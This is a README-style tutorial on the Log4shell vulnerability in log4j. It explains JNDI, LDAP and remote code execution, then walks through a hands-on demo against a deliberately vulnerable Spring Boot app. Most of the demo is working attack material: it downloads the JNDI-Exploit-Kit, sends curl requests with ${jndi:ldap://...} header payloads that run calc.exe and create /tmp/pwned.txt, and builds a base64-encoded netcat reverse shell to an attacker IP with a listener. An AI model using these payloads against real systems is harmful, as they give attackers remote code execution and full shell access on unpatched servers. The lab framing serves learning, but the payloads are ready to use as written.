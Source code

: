 # Log4shell

## Introduction

- Accessing the host server through log4j vulnerability and exploiting it with malicious code on the host server.

- Since this exploit is done through the log4j it was named commonly as Log4shell.

- Log4shell is similar to the *SQL injection* in which attacker enters sql string into the request parameters and making it execute  on the host server whereas in *log4shell* hacker enters his directory service url like ldap server making the host application connect to the attacker server using jndi lookup and gets the malicious code execute on the host server which is returned to host application in the form of stream object.

  ![Alt Text](log4shell.gif)

## Log4j Vulnerability

- Log4j is the widely used logging library for all java enterprise applications either referenced directly or indirectly in the applications.

- In 2013, Log4j has introduced a new feature which evaluates Expression language which is in format ${code/variable}.

- For example if we want to print the environment variable then syntax of the logger will be,
   ```log.info("java version is {}", ${java.version});```

- The above expression ${java.version} looks the system level environemnt variables which are set at server level and access the variable and put the value in the logger file.

- This is where the exploit is happening and attackers access the host server access without authorization.
  
## JNDI

- JNDI is *Java Naming & Directory Interface*.

- JNDI provides consistent use of naming and/or directory services as a Java API.

- Most commonly used directory protocols are,
  - LDAP
  - RMI
  - DNS
  - NIS

- Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation.

  ![Alt Text](What-is-JNDI-in-Java.png)

## LDAP 

- LDAP (Light Weight Directory Access Protocol) is a software protocol for enabling anyone to locate data about organizations, individuals and other resources such as files and devices in a network -- whether on the public Internet or on a corporate Intranet.

  ![Alt Text](how-ldap-works.png)

- This is mostly used while authenticating a users when logging in to a applications since it is not a heavyweight protocol like http and takes less time and also reduces the costly DB hits.

- Also, it is very easy to manage users and their roles since constraints can be added at organization or group level which is easy to maintain and manage users when a new rule is introduced or old rule is depricated/removed.


## RCE

- RCE is Remote Code Execution which clearly explains of executing a malicious code on the remote server (host server) without even having access to the server.

  ![Alt Text](RCE.png)

- Attacker enters malicious code in the form of a request parameter fed to the website and then making the application run the code on the host server and perform whatever attacker wants to do on the host server without having authorized access.

## Demo:

#### Prerequisites:

- [x] *Download LDAP server*:
  
  ```
  wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
  ```
  
  ![Alt Text](download_ldap.png)

- [x] *Run LDAP server*:
  
  - Move to the jar location and run the server using below command.
      
      ```
      java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "calc.exe" -L <your private ip>:1389
      ```
      
  ![Alt Text](run_ldap.png)
  
  > *_NOTE:_*  Use **hostname -I | awk '{print $1}'** to ge the private IP.

- [x] *Create a spring boot application using log4j2 dependency with version less than 2.15*: 
     
     -  Open any Java IDE (Eclipse or SpringToolSuite) \
         ![createapp](setup_1609877530_1610434665.gif)
     
     -  Replace pom.xml with below file & copy below LogController src/main/java,<br/>
          [pom](pom.xml) <br/>
          [LogController](LogController.java) 
     
     - Add below lines in default file created under src/main/java --> *Application.java in main method. 
      
        ```
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");
        ```
     
     - Install [kali-linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) and execute below command to install docker for executing app in docker         container.
        
        ```
        sudo apt install docker.io
        ``` 
    
#### Live Demo:
I will cover 3 scenarios where the malicious code will execute different outputs on the host system/server.

- Open calculator on windows system by executing vulnerable java application on local system.
  
  - Run the spring boot application from STS boot dashboard as below.  
    ![run app](02-start-single.png) 
  
  - Use curl to send request to host server with malicious code.
    	
      ```
      
      curl <your IP>:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/Y2FsYy5leGU=}'
      
      ``` 
      
    ![check calc](http://g.recordit.co/I5a0PeQpkf.gif)  
    
- Creating a txt file inside server after hosting application on docker container.
    
    - Host the same application in docker using below commands. 
          
         ```
          docker pull vamsi13krish/vulnerable-app:latest
          docker run -d --name vulnerable-app -p 8080:8080 vamsi13krish/vulnerable-app
          curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_unix/dG91Y2ggL3RtcC9wd25lZC50eHQK}'
         ```
          
    - Check the docker container for pwned.txt file in '/tmp' folder using below command 
        
         ```
          docker exec -it <container ID> ls /tmp
         ```
        
        >*NOTE*: Use **docker ps** to get container ID 


    ![file](http://g.recordit.co/Bn8ImBR7wn.gif)
    
- Getting complete access to the host server using netcat command that will be passed in malicious code on to host server using log4j vulnerability.
    - Use below command to convert the required netcat command to base64 encoded string. 
       
        ```
        echo "nc 172.26.9.117 9999 -e /bin/sh" | base64
        ```
        
     - Copy the base64 string and paste after 'exec_global/' in below command 
       
         ```linux
         ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}
         ```
       
     - Now open other terminal and run below command to listen to the port 9999.

          ```
          nc -nvlp 9999
          ```
      
     - Run below Curl command and check the listening terminal again.
        
          ```
          curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}'
          ```  
        
        ![Boom](http://g.recordit.co/xrvaibjQcF.gif)
    
---    
    
## References:

- [LDAP Server](https://www.codetd.com/en/article/7503321)
- [JNDI Exploit Github](https://github.com/pimps/JNDI-Exploit-Kit)
- [Sample Exploit](https://www.thesecmaster.com/how-does-the-log4j-vulnerability-work-in-practical/)
- [Netcat Exploit](https://www.youtube.com/watch?v=tJW204uZWPU)
